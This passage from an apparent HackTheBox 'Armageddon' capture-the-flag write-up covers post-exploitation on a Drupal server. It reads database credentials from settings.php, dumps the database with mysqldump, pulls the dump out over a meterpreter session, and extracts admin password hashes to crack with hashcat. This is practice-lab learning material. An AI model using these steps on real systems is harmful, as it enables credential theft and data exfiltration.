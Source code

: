 ## Getting a User

I was on the machine as the apache user. The user did not have access to much. I checked the Drupal configuration and found the database credentials in `site/default/settings.php`.

```php
$databases = array (
  'default' =>
  array (
    'default' =>
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'REDACTED',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

I tried connecting to the database. But it did not work well in the shell generated from meterpreter. Instead, I used `mysqldump` to get the database SQL and downloaded it to my machine.

```bash
mysqldump -u drupaluser -p drupal > drupal.sql
Enter password:

exit

meterpreter > download drupal.sql
[*] Downloading: drupal.sql -> /home/ehogue/Kali/OnlineCTFs/HackTheBox/Armageddon/drupal.sql
[*] Downloaded 1.00 MiB of 1.25 MiB (79.88%): drupal.sql -> /home/ehogue/Kali/OnlineCTFs/HackTheBox/Armageddon/drupal.sql
[*] Downloaded 1.25 MiB of 1.25 MiB (100.0%): drupal.sql -> /home/ehogue/Kali/OnlineCTFs/HackTheBox/Armageddon/drupal.sql
[*] download   : drupal.sql -> /home/ehogue/Kali/OnlineCTFs/HackTheBox/Armageddon/drupal.sql
```

Once I had the database dump on my machine, it was easy to find where the users were created.

```sql
INSERT INTO `users` VALUES (0,'','','','','',NULL,0,0,0,0,NULL,'',0,'',NULL),
(1,'brucetherealadmin','$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt','admin@armageddon.eu','','','filtered_html',1606998756,1607077194,1607076276,1,'Europe/London','',0,'admin@armageddon.eu','a:1:{s:7:\"overlay\";i:1;}'),
(3,'admin','$S$Dk7mAXhhZpqElUq7AtOtwgp2qM4qcgXSTKHu289U7aQAQl42Q8uG','admin@test.com','','','filtered_html',1662311453,0,0,0,'Europe/London','',0,'admin@test.com',NULL);
```

The admin user was the one I tried creating. I used hashcat to crack the hash for 'brucetherealadmin'.
